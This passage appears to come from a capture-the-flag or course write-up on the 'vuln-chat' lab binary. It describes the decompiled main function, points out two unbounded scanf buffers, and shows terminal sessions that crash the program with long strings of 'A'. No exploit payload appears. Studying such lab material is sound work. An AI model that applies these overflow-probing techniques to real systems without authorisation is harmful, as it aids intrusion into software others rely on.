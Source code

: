 ## Static analysis

- This is `main` decompiled in ghidra:

![main](scrs/main.png)

- First it declares 2 buffers, one for the username second for the secret.
- Then it declares 2 variables, one for scanf format which is `%s`, and the other is simply set to 0 later on.
- You should note already, that both buffers are vulnerable to buffer overflow, because no bound checking is performed inside the `main`.
- So you can crash the program in both inputs:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/vulnchat$ python3 -c 'print("\x41"*30)' | ./vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: djinn: Sorry. That's not good enough
Segmentation fault (core dumped)
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/vulnchat$ ./vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: a
Welcome a!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
a: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
djinn: Sorry. That's not good enough
```
